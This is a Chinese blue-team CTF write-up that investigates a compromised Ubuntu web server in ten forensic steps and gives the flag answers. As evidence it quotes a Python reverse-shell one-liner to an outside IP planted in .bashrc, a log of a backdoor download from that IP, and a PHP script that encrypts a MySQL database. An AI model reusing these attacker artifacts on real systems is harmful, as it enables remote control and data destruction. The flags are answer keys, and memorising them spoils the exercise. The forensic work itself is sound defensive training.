

# 第九章 - blueteam 的小心思

## 1

> 攻击者通过什么密码成功登录了网站的后台？提交密码字符串的小写 md5 值

在根目录下发现一个流量包文件

```bash
(remote) root@ubuntu18:/etc/profile.d# find / -name "*.pcap"
/wireshark.pcap
```

下载下来解析



在其中可以找到攻击者登录的流量


```plaintext
Aa12345^ --> d63edb0e9df4cf411398e3658c0237e0
```

```plaintext
flag{d63edb0e9df4cf411398e3658c0237e0}
```

## 2

> 攻击者在哪个 PHP 页面中成功上传了后门文件？例如 upload.php 页面，上传字符串 "upload.php" 的小写 md5 值

鉴于涉及到上传操作，对 Apache2 日志进行筛选

```bash
(remote) root@ubuntu18:/var/log/apache2# cat /var/log/apache2/access.log | grep "POST" | grep -i "upload"
192.168.16.43 - - [18/Nov/2023:23:21:04 +0000] "POST /pluginmgr.php?op=upload HTTP/1.1" 302 39309 "http://192.168.18.24/pluginmgr.php" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```

```plaintext
flag{b05c0be368ffa72e6cb2df7e1e1b27be}
```

## 3

> 找到攻击者上传的 webshell 文件，提交该文件的小写 md5 值

将网站源码下载下来

```bash
(remote) root@ubuntu18:/root# cd /var/www/
(remote) root@ubuntu18:/var/www# zip -r www.zip ./html/
(remote) root@ubuntu18:/var/www# python3 -m http.server 8000
```

下载下来之后，使用 D 盾进行扫描


```bash
(remote) root@ubuntu18:/var/www# md5sum /var/www/html/plugins/cpg.php
a097b773ced57bb7d51c6719fe8fe5f5  /var/www/html/plugins/cpg.php
```

```plaintext
flag{a097b773ced57bb7d51c6719fe8fe5f5}
```

## 4

> 攻击者后续又下载了一个可执行的后门程序，提交该文件的小写 md5 值

在 Apache2 的 error.log 中，可以看到攻击者下载了一个文件

```bash
[Sun Nov 19 07:17:48.734186 2023] [core:notice] [pid 1398] AH00094: Command line: '/usr/sbin/apache2'
--2023-11-18 23:21:43--  http://124.221.70.199:8889/is.world
Connecting to 124.221.70.199:8889... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: 'is.world'

     0K                                                       100%  274K=0.001s

2023-11-18 23:21:43 (274 KB/s) - 'is.world' saved [250/250]
```

```bash
(remote) root@ubuntu18:/var/www/html/plugins# ls -lah
total 40K
drwxrwxrwx  9 root     root     4.0K Nov 18 23:25  .
drwxr-xr-x  2 root     root     4.0K Nov 18 23:26 '.'
drwxrwxrwx 14 root     root     4.0K Apr 21  2023  ..
-rw-r--r--  1 www-data www-data   29 Nov 18 07:39  cpg.php
drwxrwxrwx  2 www-data www-data 4.0K Nov 18 23:21  receive
drwxrwxrwx  3 root     root     4.0K Nov 18 07:17  sample
drwxrwxrwx  5 root     root     4.0K Nov 18 07:17  upload_h5a
drwxrwxrwx  3 root     root     4.0K Nov 18 07:17  upload_sgl
drwxrwxrwx  4 root     root     4.0K Nov 18 07:17  upload_swf
drwxrwxrwx  5 root     root     4.0K Nov 18 07:17  visiblehookpoints
```

发现一个可疑目录，进入查看情况

```bash
(remote) root@ubuntu18:/var/www/html/plugins# cd '.'
(remote) root@ubuntu18:/var/www/html/plugins/.       # ls -lh
total 4.0K
-rwxrwxrwx 1 www-data www-data 250 Nov 11 13:41 is.world
(remote) root@ubuntu18:/var/www/html/plugins/.       # md5sum is.world
ee279c39bf3dcb225093bdbafeb9a439  is.world
```

```plaintext
flag{ee279c39bf3dcb225093bdbafeb9a439}
```

## 5

> 攻击者创建了后门用户的名称是？例如attack恶意用户，上传字符串"attack"的小写md5值

筛选日志

```bash
(remote) root@ubuntu18:/var/log# grep -n -H -a -i "useradd" ./auth.log 
./auth.log:1:Oct  8 03:05:55 ubuntu18 useradd[1053]: new group: name=ubuntu18, GID=1000
./auth.log:2:Oct  8 03:05:55 ubuntu18 useradd[1053]: new user: name=ubuntu18, UID=1000, GID=1000, home=/home/ubuntu18, shell=/bin/bash
./auth.log:3:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'adm'
./auth.log:4:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'cdrom'
./auth.log:5:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'sudo'
./auth.log:6:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'dip'
./auth.log:7:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'plugdev'
./auth.log:8:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'lxd'
./auth.log:9:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'adm'
./auth.log:10:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'cdrom'
./auth.log:11:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'sudo'
./auth.log:12:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'dip'
./auth.log:13:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'plugdev'
./auth.log:14:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'lxd'
./auth.log:135:Apr 18 03:23:01 ubuntu18 useradd[1632]: new user: name=mysql, UID=111, GID=116, home=/nonexistent, shell=/bin/false
./auth.log:182:Nov 18 23:24:19 ubuntu18 useradd[4196]: new user: name=knowledgegraphd, UID=0, GID=0, home=/home/knowledgegraphd, shell=/bin/bash
./auth.log:183:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to group 'root'
./auth.log:184:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to shadow group 'root'
```

```plaintext
knowledgegraphd --> 4cda3461543c9a770a3349760594facd
```

```plaintext
flag{4cda3461543c9a770a3349760594facd}
```

## 6

> 攻击者创建了一个持久化的配置项，导致任意用户登录就会触发后门的连接。提交该配置项对应配置文件的小写md5值

在脚本中看到恶意语句

```bash
(remote) root@ubuntu18:/etc/init.d# cat /etc/profile
......
/var/www/html/plugins/".       "/is.world &
......
(remote) root@ubuntu18:/var/lib/mysql# md5sum /etc/profile
65bf3e4a9ac90d75ec28be0317775618  /etc/profile
```

```plaintext
flag{65bf3e4a9ac90d75ec28be0317775618}
```

## 7

> 攻击者创建了一个持久化的配置项，导致只有 root 用户登录才会触发后门的连接。提交该配置项对应配置文件的小写 md5 值

```bash
(remote) root@ubuntu18:/root# cat .bashrc | grep python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.221.70.199",9919));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
(remote) root@ubuntu18:/root# md5sum .bashrc
4acc9c465eeeb139c194893ec0a8bcbc  .bashrc
```

```plaintext
flag{4acc9c465eeeb139c194893ec0a8bcbc}
```

## 8

> 攻击者加密了哪个数据库？提交数据库的文件夹名，例如user数据库对应存放位置为user文件夹，上传字符串"user"的小写md5值

查看 /var/lib/mysql 文件夹，发现 clockup.php 文件

```php
<?php
$currentDate = date("Y-m-d");
$key = md5($currentDate);
$iv = substr(hash('sha256', "DeepMountainsGD"), 0, 16);
$filePath = "/var/lib/mysql/JPMorgan@0020Chase";
$files = scandir($filePath);
foreach ($files as $file) {
    if ($file != "." && $file != "..") {
        $fullPath = $filePath . '/' . $file;
        $content = file_get_contents($fullPath);
        $encryptedContent = openssl_encrypt($content, 'aes-256-cbc', $key, 0, $iv);
        file_put_contents($fullPath, $encryptedContent);
    }
}
?>
```

```plaintext
JPMorgan@0020Chase --> 0928a5424aa6126e5923980ca103560e
```

```plaintext
flag{0928a5424aa6126e5923980ca103560e}
```

## 9

> 解密数据库，提交Harper用户对应Areer的值。提交Areer值的小写md5值

首先查看文件的修改时间

```bash
(remote) root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# ls -lh
total 292K
-rw-r----- 1 mysql mysql  12K Nov 18 23:34 Balance.frm
-rw-r----- 1 mysql mysql 129K Nov 18 23:34 Balance.ibd
-rw-r----- 1 mysql mysql   88 Nov 18 23:34 db.opt
-rw-r----- 1 mysql mysql  12K Nov 18 23:34 UserIdentity.frm
-rw-r----- 1 mysql mysql 129K Nov 18 23:34 UserIdentity.ibd
(remote) root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo date("Y-m-d");'
2024-04-30
(remote) root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo md5(date("Y-m-d"));'
1342d69a84b3aa4ae4f9c7c359417e80
(remote) root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo substr(hash('sha256', "DeepMountainsGD"), 0, 16);'
PHP Warning:  Use of undefined constant sha256 - assumed 'sha256' (this will throw an Error in a future version of PHP) in Command line code on line 1
c8203eb05fa13ebf
```

于是编写解密脚本

```php
<?php
$currentDate = date("Y-m-d");
$key = md5('2023-11-18');
$iv = substr(hash('sha256', "DeepMountainsGD"), 0, 16);
$filePath = "/var/lib/mysql/JPMorgan@0020Chase";
$files = scandir($filePath);
foreach ($files as $file) {
    if ($file != "." && $file != "..") {
        $fullPath = $filePath . '/' . $file;
        $content = file_get_contents($fullPath);
        $decryptedContent = openssl_decrypt($content, 'aes-256-cbc', $key, 0, $iv);
        file_put_contents($fullPath, $decryptedContent);
    }
}
?>
```

```bash
(remote) root@ubuntu18:/var/lib/mysql# php test.php 
(remote) root@ubuntu18:/var/lib/mysql# ls -lh JPMorgan@0020Chase/
total 220K
-rw-r----- 1 mysql mysql 8.5K Apr 30 14:06 Balance.frm
-rw-r----- 1 mysql mysql  96K Apr 30 14:06 Balance.ibd
-rw-r----- 1 mysql mysql   61 Apr 30 14:06 db.opt
-rw-r----- 1 mysql mysql 8.5K Apr 30 14:06 UserIdentity.frm
-rw-r----- 1 mysql mysql  96K Apr 30 14:06 UserIdentity.ibd
```

成功解密数据库之后，找到数据库的凭据

```bash
(remote) root@ubuntu18:/var/lib/mysql# cat /var/www/html/include/config.inc.php
<?php
// Coppermine configuration file
// Database configuration
$CONFIG['dbtype'] =       'pdo:mysql';                  // Your database type
$CONFIG['dbserver'] =     'localhost';                  // Your database server
$CONFIG['dbuser'] =       'root';                       // Your database username
$CONFIG['dbpass'] =       'mysql123';                   // Your database password
$CONFIG['dbname'] =       'mirage';                     // Your database name

// DATABASE TABLE NAMES PREFIX
$CONFIG['TABLE_PREFIX'] =                  'cpg16x_';
```

登录数据库

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| JPMorgan Chase     |
| mirage             |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> USE `JPMorgan Chase`;
Database changed

mysql> show tables;
+--------------------------+
| Tables_in_JPMorgan Chase |
+--------------------------+
| Balance                  |
| UserIdentity             |
+--------------------------+

mysql> SELECT * FROM UserIdentity WHERE User = 'Harper';
+------+--------+-------+
| No   | User   | Areer |
+------+--------+-------+
| 14   | Harper | Chef  |
+------+--------+-------+
```

```plaintext
Chef --> 8fd82b8864d71ed7fa12b59e6e34cd1c
```

```plaintext
flag{8fd82b8864d71ed7fa12b59e6e34cd1c}
```

## 10

> 因为什么文件中的漏洞配置，导致了攻击者成功执行命令并提权。提交该文件的小写 md5 值

检查 /etc/sudoers 文件

```bash
root    ALL=(ALL:ALL) ALL
www-data ALL=(root) NOPASSWD: /bin/systemctl status apache2.service
```

```bash
(remote) root@ubuntu18:/root# md5sum /etc/sudoers
6585817513b0ea96707ebb0d04d6aeff  /etc/sudoers
```

```plaintext
flag{6585817513b0ea96707ebb0d04d6aeff}
```
